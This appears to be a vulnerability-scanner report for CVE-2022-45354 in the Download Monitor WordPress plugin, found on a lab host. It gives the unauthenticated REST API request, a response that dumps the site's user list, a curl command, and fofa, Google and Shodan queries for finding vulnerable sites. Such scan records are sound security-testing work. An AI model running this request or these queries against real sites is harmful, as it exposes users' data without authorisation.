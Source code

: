 ### Download Monitor <= 4.7.60 - Sensitive Information Exposure via REST API (CVE-2022-45354:version) found on http://wordpress.lan

----
**Details**: **CVE-2022-45354:version** matched at http://wordpress.lan

**Protocol**: HTTP

**Full URL**: http://wordpress.lan/wp-content/plugins/download-monitor/readme.txt

**Timestamp**: Tue Jul 11 09:09:59 +0000 UTC 2023

**Template Information**

| Key | Value |
| --- | --- |
| Name | Download Monitor <= 4.7.60 - Sensitive Information Exposure via REST API |
| Authors | topscoder |
| Tags | cve, wordpress, wp-plugin, download-monitor, medium |
| Severity | medium |
| Description | The Download Monitor plugin for WordPress is vulnerable to Sensitive Information Exposure in versions up to, and including, 4.7.60 via REST API. This can allow unauthenticated attackers to extract sensitive data including user reports, download reports, and user data including email, role, id and other info (not passwords) |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:L/A:N) |
| CVE-ID | [CVE-2022-45354](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2022-45354) |
| CVSS-Score | 5.40 |
| fofa-query | wp-content/plugins/download-monitor/ |
| google-query | inurl:"/wp-content/plugins/download-monitor/" |
| shodan-query | vuln:CVE-2022-45354 |

**Request**
```http
GET /wp-json/download-monitor/v1/user_data HTTP/1.1
Host: wordpress.lan
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.1 200 OK
Date: Tue, 11 Jul 2023 09:46:18 GMT
Server: Apache/2.4.56 (Debian)
X-Powered-By: PHP/8.0.28
dlm-no-waypoints: true
X-Robots-Tag: noindex
Link: <http://wordpress.lan/wp-json/>; rel="https://api.w.org/"
X-Content-Type-Options: nosniff
Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link
Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
Allow: GET
Vary: Origin
Content-Length: 1108
Connection: close
Content-Type: application/json

[
   {
      "id": "1",
      "nicename": "admin",
      "url": "http://wordpress.lan",
      "registered": "2023-01-16 13:29:36",
      "display_name": "admin",
      "role": ""
   },
   {
      "id": "8",
      "nicename": "agent",
      "url": "",
      "registered": "2023-07-06 08:09:15",
      "display_name": "agent",
      "role": [
         "subscriber"
      ]
   },
   {
      "id": "3",
      "nicename": "debra_moran",
      "url": "",
      "registered": "2023-06-13 08:32:47",
      "display_name": "Debra Moran",
      "role": [
         "wdk_agent"
      ]
   },
   {
      "id": "4",
      "nicename": "garry_novan",
      "url": "",
      "registered": "2023-06-13 08:32:47",
      "display_name": "Garry Novan",
      "role": [
         "wdk_agent"
      ]
   },
   {
      "id": "5",
      "nicename": "kety_spear",
      "url": "",
      "registered": "2023-06-13 08:32:47",
      "display_name": "Kety Spear",
      "role": [
         "wdk_agent"
      ]
   },
   {
      "id": "7",
      "nicename": "tagent",
      "url": "",
      "registered": "2023-07-06 08:09:14",
      "display_name": "tagent",
      "role": [
         "subscriber"
      ]
   },
   {
      "id": "9",
      "nicename": "test",
      "url": "",
      "registered": "2023-07-06 09:56:31",
      "display_name": "test",
      "role": []
   },
   {
      "id": "6",
      "nicename": "rob",
      "url": "",
      "registered": "2023-06-28 13:36:56",
      "display_name": "rob",
      "role": [
         "subscriber"
      ]
   },
   {
      "id": "2",
      "nicename": "user",
      "url": "",
      "registered": "2023-06-06 08:20:31",
      "display_name": "user name",
      "role": [
         "subscriber"
      ]
   }
]
```



**CURL command**
```sh
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36' 'http://wordpress.lan/wp-json/download-monitor/v1/user_data'
```

----

